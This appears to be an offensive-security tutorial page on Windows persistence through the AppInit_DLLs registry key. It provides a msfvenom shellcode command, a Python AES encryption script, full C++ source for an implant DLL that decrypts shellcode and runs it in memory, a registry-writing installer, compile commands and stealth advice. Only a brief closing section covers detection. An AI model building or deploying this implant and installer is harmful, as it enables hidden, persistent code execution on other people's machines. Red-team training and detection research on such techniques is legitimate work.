

## Technical Internals: The `user32.dll` Loading Mechanism


<Callout type="info" title="How Windows injects AppInit DLLs">
The `AppInit_DLLs` mechanism is not handled by the kernel's generic PE loader (`ntdll.dll`), but rather is specifically implemented inside **`user32.dll`** itself. 

When a new process is created, the Windows PE Loader maps its dependencies. If the binary imports `user32.dll` (which is required for almost any GUI application), the following sequence occurs **before** the main application's entry point (`main` or `WinMain`) is executed:

1. **Import Resolution**: The PE Loader resolves the import table and maps `user32.dll` into the process's virtual address space.
2. **`DllMain` Execution**: The loader calls `user32.dll`'s `DllMain` function with the `DLL_PROCESS_ATTACH` flag.
3. **Registry Query**: Inside `DllMain`, `user32.dll` has a hardcoded routine that queries the registry path:  
   `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows`
4. **Policy Checks**: The routine checks the `LoadAppInit_DLLs` DWORD value. If it is `0`, the routine exits. If it is `1`, it reads the `AppInit_DLLs` string.
5. **Security Mitigations (Modern Windows)**: On Windows 7 and later, the loader performs additional checks:
   - **Signature Verification**: It checks `RequireSignedAppInit_DLLs`. If set to `1`, the target DLL must have a valid Authenticode digital signature, or it will be silently blocked.
   - **Mitigation Policy**: The loader checks the process's Mitigation Policy. If the process was launched with `MITIGATION_IMAGE_LOAD_NO_LOW_MITIGATION` or is a Protected Process Light (PPL), `AppInit_DLLs` is completely ignored.
6. **DLL Injection**: If all checks pass, `user32.dll` iterates through the space-separated list of DLL paths in the `AppInit_DLLs` string and calls `LdrLoadDll` internally for each, causing the malicious DLLs to be mapped into the process.

Because this injection occurs during the DLL initialization phase of the host process, the malicious DLL's `DllMain` executes **before** the host application itself starts running, granting the payload early initialization control.
</Callout>

## Execution Flowchart



## Step 1: Payload Generation & Encryption

First, generate the raw shellcode using Metasploit. Then, use the Python script to encrypt it with AES-256-CBC. The script uses SHA-256 to derive the key, which perfectly matches the Windows CryptoAPI implementation (`CryptCreateHash` & `CryptDeriveKey`).

<Callout type="danger" title="MSF Payload Generation">
```bash
msfvenom -p windows/x64/exec --platform windows -a x64 CMD=calc.exe -f raw -o calc.ico
```
</Callout>

<AccordionGroup>
  <Accordion title="AES Encryption Script (Python)">
    ```python
    import sys
    import os
    import hashlib
    from Crypto.Cipher import AES
    from Crypto.Util.Padding import pad

    def format_array(data, per_line=16):
        out = []
        for i, x in enumerate(data):
            if i % per_line == 0 and i != 0:
                out.append("\n    ")
            out.append(f"0x{x:02x}")
            if i != len(data) - 1:
                out.append(", ")
        return "".join(out)

    plaintext = open(sys.argv[1], "rb").read()

    KEY = os.urandom(16)
    AES_KEY_DERIVED = hashlib.sha256(KEY).digest()
    IV = b"\x00" * 16

    cipher = AES.new(AES_KEY_DERIVED, AES.MODE_CBC, IV)
    ciphertext = cipher.encrypt(pad(plaintext, 16))

    print("AESkey[] = {\n    " + format_array(KEY, 8) + "\n};")
    print()
    print("payload[] = {\n    " + format_array(ciphertext, 16) + "\n};")
    ```
  </Accordion>
</AccordionGroup>

<Note title="Integrate the Payload">
Copy the output of the Python script and paste it into the `payload[]` and `key[]` arrays in the C++ Implant DLL code below.
</Note>

## Step 2: The Implant DLL (CryptoAPI & Execution)

This C++ DLL acts as the payload carrier. In its `DllMain`, it logs the host process name using `OutputDebugStringA`. The `Go` function allocates memory, decrypts the AES payload using Windows CryptoAPI, sets the memory to executable, and launches the shellcode in a new thread.

<CodeGroup>
```cpp Source Code (implant.cpp)
#include <windows.h>
#include <wincrypt.h>
#include <stdio.h>
#include <psapi.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")

// src: https://gist.github.com/syu5-gh/eaa0018ed70836b7279b
// DebugOut("name: %s\n", string);
void DebugOut(const char* fmt, ...) {
    char dbg_out[4096];
    va_list argp;

    va_start(argp, fmt);
    vsprintf_s(dbg_out, fmt, argp);
    va_end(argp);
    OutputDebugStringA((LPCSTR)dbg_out);
}


int AESDecrypt(char* payload, unsigned int payload_len, char* key, size_t keylen) {
    HCRYPTPROV hProv;
    HCRYPTHASH hHash;
    HCRYPTKEY hKey;

    if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {
        return -1;
    }
    if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) {
        return -1;
    }
    if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)) {
        return -1;
    }
    if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) {
        return -1;
    }

    if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE*)payload, (DWORD*)&payload_len)) {
        return -1;
    }

    CryptReleaseContext(hProv, 0);
    CryptDestroyHash(hHash);
    CryptDestroyKey(hKey);

    return 0;
}

// MessageBox shellcode - 64-bit
unsigned char payload[] = { 0 }; //fixme
unsigned char key[] = {0}; //fixme


void Go(void) {

    void* exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    unsigned int payload_len = sizeof(payload);

    // Allocate memory for payload
    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // Decrypt payload
    AESDecrypt((char*)payload, payload_len, (char*)key, sizeof(key));

    // Copy payload to allocated buffer
    RtlMoveMemory(exec_mem, payload, payload_len);

    // Make the buffer executable
    rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

    // If all good, launch the payload
    if (rv != 0) {
        th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
        WaitForSingleObject(th, -1);
    }

}


extern "C" __declspec(dllexport) int Dummy(void) {

    return 0;
}


BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpReserved) {
    BOOL bReturnValue = TRUE;
    char ModuleName[1000];
    DWORD ModuleNameSize = 1000;

    switch (dwReason) {
    case DLL_PROCESS_ATTACH:
        GetModuleBaseNameA(GetCurrentProcess(), 0, ModuleName, ModuleNameSize);
        DebugOut("ImplantDLL injected into %s!\n", ModuleName);
        //CreateThread(0, 0, (LPTHREAD_START_ROUTINE) Go, 0, 0, 0);
        break;
    case DLL_PROCESS_DETACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
        break;
    }
    return bReturnValue;
}
```
</CodeGroup>

<Warning title="OpSec - CreateThread in DllMain">
In the provided code, `CreateThread` inside `DllMain` is commented out. This is intentional! Calling complex APIs like `CreateThread` or `VirtualAlloc` inside `DllMain` can cause deadlocks (because the DLL loader holds the loader lock). For stealthy execution, the payload should be executed via the `Dummy` export function or by hijacking an existing thread.
</Warning>

## Step 3: The Persistence Installer

This C++ tool writes the path of your compiled Implant DLL into the `AppInit_DLLs` registry key and enables `LoadAppInit_DLLs`.

<CodeGroup>
```cpp Source Code (installer.cpp)
#include <windows.h>
#include <stdio.h>
#include <wchar.h>

#pragma comment(lib, "Advapi32.lib")

int wmain(int argc, wchar_t* argv[])
{
    if (argc < 2) {
        wprintf(L"[+] Usage: %ls <DLLPATH>\n", argv[0]);
        wprintf(L"[+] Example: %ls C:\\Users\\Public\\file.dll\n", argv[0]);
        return 1;
    }

    if (wcslen(argv[1]) >= MAX_PATH) {
        wprintf(L"[!] DLL path is too long.\n");
        return 1;
    }

    const wchar_t* AppInit_data = argv[1];

    HKEY hKey;

    LONG status = RegOpenKeyExW(
        HKEY_LOCAL_MACHINE,
        L"Software\\Microsoft\\Windows NT\\CurrentVersion\\Windows",
        0,
        KEY_QUERY_VALUE | KEY_SET_VALUE,
        &hKey
    );

    if (status != ERROR_SUCCESS) {
        wprintf(L"[!] RegOpenKeyExW failed: %ld\n",status);
        return 1;
    }

    wprintf(L"[+] RegOpenKeyExW successful!\n");

    status = RegSetValueExW(
        hKey,
        L"AppInit_DLLs",
        0,
        REG_SZ,
        (const BYTE*)AppInit_data,
        (DWORD)((wcslen(AppInit_data) + 1) * sizeof(wchar_t))
    );

    if (status != ERROR_SUCCESS) {
        wprintf(L"[!] Failed to set AppInit_DLLs: %ld\n",status);
        RegCloseKey(hKey);
        return 1;
    }

    wprintf(L"[+] AppInit_DLLs set!\n");

    DWORD LoadInit_data = 1;

    status = RegSetValueExW(
        hKey,
        L"LoadAppInit_DLLs",
        0,
        REG_DWORD,
        (const BYTE*)&LoadInit_data,
        sizeof(LoadInit_data)
    );

    if (status != ERROR_SUCCESS) {
        wprintf(L"[!] Failed to set LoadAppInit_DLLs: %ld\n",status);
        RegCloseKey(hKey);
        return 1;
    }

    wprintf(L"[+] LoadAppInit_DLLs set!\n");

    RegCloseKey(hKey);
    return 0;
}
```
</CodeGroup>

## Compilation Instructions

You need to compile both the DLL and the Installer. Both require specific libraries to be linked.

<Tabs>
  <Tab title="Compile Implant DLL (MSVC)">
    ```bash
    cl.exe /nologo /Ox /MT /W0 /GS- /LD /Tp implant.cpp /link /OUT:implant.dll /SUBSYSTEM:WINDOWS crypt32.lib advapi32.lib psapi.lib
    ```
    <Note title="DLL Export">
      The `/LD` flag tells the compiler to build a Dynamic Link Library. The `Dummy` export function is included so the DLL can also be executed via `rundll32.exe` for testing.
    </Note>
  </Tab>
  <Tab title="Compile Installer (MSVC)">
    ```bash
    cl.exe /nologo /Ox /MT /W0 /GS- /Tp installer.cpp /link /OUT:installer.exe /SUBSYSTEM:CONSOLE Advapi32.lib
    ```
  </Tab>
  <Tab title="MinGW (g++)">
    ```bash
    # Compile DLL
    g++ .\implant.cpp -o implant.dll -shared -std=c++17 -lcrypt32 -ladvapi32 -lpsapi

    # Compile Installer
    g++ .\installer.cpp -o installer.exe -std=c++17 -mconsole -ladvapi32
    ```
  </Tab>
</Tabs>

## How It Works

1. **Persistence Setup**
   The installer modifies `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows`. It sets `AppInit_DLLs` to the path of the malicious DLL, and sets `LoadAppInit_DLLs` to `1` (DWORD) to enable the feature.

2. **DLL Injection (Automatic)**
   Whenever a new process loads `user32.dll` (which is required for almost any GUI application), the Windows DLL loader checks the `AppInit_DLLs` registry key and automatically maps the specified DLLs into the new process's memory space.

3. **Payload Decryption (CryptoAPI)**
   Inside the `Go` function, the Windows CryptoAPI is initialized. It hashes the provided key using SHA-256 (`CALG_SHA_256`), derives an AES-256 key (`CALG_AES_256`), and calls `CryptDecrypt` to decrypt the payload in place.

4. **Memory Allocation & Execution**
   The decrypted payload is copied into newly allocated memory (`VirtualAlloc` with `PAGE_READWRITE`). The memory protection is then changed to `PAGE_EXECUTE_READ` (`VirtualProtect`), and a new thread is created (`CreateThread`) to execute the shellcode.

## Defense & Detection

<Callout type="error" title="Blue Team Perspective">
The `AppInit_DLLs` technique is heavily monitored by EDRs and is considered a high-fidelity persistence mechanism.

- **Sysmon Event ID 13 (Registry Value Set):** Sysmon can be configured to monitor the `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows` key. Any modification to `AppInit_DLLs` or `LoadAppInit_DLLs` is an immediate critical alert.
- **Memory Telemetry:** The `VirtualAlloc` -> `VirtualProtect` (RWX to RX) -> `CreateThread` pattern is the classic execution signature of shellcode. EDRs hook these APIs to inspect the memory before execution.
- **CryptoAPI Hooking:** EDRs monitor `CryptDecrypt` to extract the decrypted payload in real-time, allowing them to scan the shellcode before it executes.
- **Modern Windows Mitigations:** On modern Windows 10/11, `AppInit_DLLs` is disabled by default for secure processes. The DLL will only load into processes that are not protected and have the `MITIGATION_IMAGE_LOAD_NO_LOW_MITIGATION` flag unset.
</Callout>
